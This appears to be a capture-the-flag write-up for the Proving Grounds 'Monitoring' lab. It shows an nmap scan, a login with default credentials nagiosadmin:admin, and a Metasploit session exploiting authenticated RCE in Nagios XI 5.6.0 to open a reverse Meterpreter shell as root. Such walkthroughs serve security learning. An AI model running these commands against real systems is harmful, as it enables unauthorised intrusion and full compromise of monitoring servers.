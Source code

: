 ```yaml
---
title: "Proving grounds Play: Monitoring"
layout: post
date: 2023-09-25 03:00
categories: writeup
---
```


Proving grounds Play - Monitoring CTF writeup.

## Nmap

```sh
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b88c40f65f2a8bf792a8814bbb596d02 (RSA)
|   256 e7bb11c12ecd3991684eaa01f6dee619 (ECDSA)
|_  256 0f8e28a7b71d60bfa62bdda36dd14ea4 (ED25519)
25/tcp  open  smtp     Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ubuntu
| Issuer: commonName=ubuntu
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-08T17:59:00
| Not valid after:  2030-09-06T17:59:00
| MD5:   e0671ea392c2ec73cb21de0e73dfcb66
|_SHA-1: e39cc9b6c35bb6083dd0cd25e60fcb616551da77
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 8E1494DD4BFF0FC523A2E2A15ED59D84
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Nagios XI
|_http-server-header: Apache/2.4.18 (Ubuntu)
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
_http-title: Nagios XI
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=192.168.1.6/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Issuer: commonName=192.168.1.6/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2020-09-08T18:28:08
| Not valid after:  2030-09-06T18:28:08
| MD5:   20f0951f8eff1b69ef3f1b1efb4c361f
|_SHA-1: cc400ad760cf49591c92d9ab0f06106c18f66661
```

## Web PORT: 80

![img](/assets/images/CTF/Proving_Grounds/Monitoring/web.png)

The port 80 is restricting the users from logging into the admin dashboard.

```text
NSP: Sorry Dave, I can't let you do that
```

## Web PORT: 443

![img](/assets/images/CTF/Proving_Grounds/Monitoring/web.png)

Use credentials `nagiosadmin:admin` to login to the portal. The Nagios XI 5.6.0 is vulnerable to authenticated remote code execution. The foothold can be acheived by using the metasploit module.

## Foothold

```sh
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set password admin
password => admin
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set lhost 192.168.45.233
lhost => 192.168.45.233
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set RHOSTS 192.168.167.136
RHOSTS => 192.168.167.136
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.45.233:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.6.0
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3045348 bytes) to 192.168.167.136
[*] Meterpreter session 1 opened (192.168.45.233:4444 -> 192.168.167.136:51442) at 2023-09-25 07:06:23 -0400
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter > shell
whoami
root
```

**Foothold Obtained**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).